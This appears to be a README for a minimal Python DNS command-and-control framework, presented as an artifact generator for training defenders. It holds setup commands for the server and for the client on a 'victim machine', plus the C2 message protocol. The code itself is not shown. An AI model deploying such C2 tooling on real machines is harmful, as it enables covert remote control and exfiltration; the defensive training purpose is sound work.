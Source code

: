 # ObviousDNSC2
Simple DNS C2 with Python client and server

## Purpose
A plain-as-possible DNS C2 framework with both client and server written in Python. This is designed as an artifact generation tool for training defenders.

## Setup
Configure a DNS record (like, with a legit registrar) with an NS record that points to a public asset you control. Example:
`odc2.SomeDomainIOwn.com`, pointing to `myVPC.SomeDomainIOwn.com`. Set the TTL to 1 second so that repeat messages don't get cached responses.

On that VPC, install and run the server, e.g., `sudo python3 odc2server.py odc2.SomeDomainIOwn.com`

On the victim machine, run `odc2client.py -d odc2.SomeDomainIOwn.com`

## Message Flow
`Client             Server`  
`CHK                NUL`  
`CHK                HDR<num CMD pkts>`  
`CON<last pkt num>  CMD<pkt num>`  
`HDR<num RES pkts>  ACK<num RES pkts>`  
`RES<pkt num>       ACK<pkt num>`  (counts down to 0)

`DIE` from server closes client

